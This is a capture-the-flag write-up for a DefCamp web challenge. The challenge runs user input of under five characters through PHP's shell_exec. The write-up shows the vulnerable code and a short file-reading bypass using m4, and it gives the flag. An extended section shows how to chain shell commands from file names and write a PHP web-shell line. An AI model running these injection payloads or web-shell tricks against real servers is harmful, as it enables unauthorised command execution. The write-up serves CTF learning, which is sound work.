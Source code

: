 # DefCamp CTF - para-code

## Description
Command injecion 4 characters limited
```php
if (strlen($_GET['start']) < 5){
  echo shell_exec($_GET['start']);
}
```

If we can inject `cat *`, we could read all files in the directory but this command has 5 characters so it's doesn't work.

## Bypass
```bash
# using m4(same as cat)
m4 *
```

**flag**: `791b21ee6421993a8e25564227a816ee52e48edb437909cba7e1e80c0579b6be`


## Extended

**In bash, write file input from stdin**:
```bash
>cmd.php
#> <?php system('id'); ?>
cat cmd.php # <?php system('id'); ?>
```

**From that, we got**:
```bash
>php # newline - end command here!
>ex.\\
>ind\\
>\ \\
>cat\\

ls -t>_ # sort by time, in real senario, we have to write a file for this task, just like below

sh _
# hello
```

`_` file:
```bash
cat _
#_
#cat\
# \
#ind\
#ex.\
#php
#index.php
```

# References:
https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge-v2
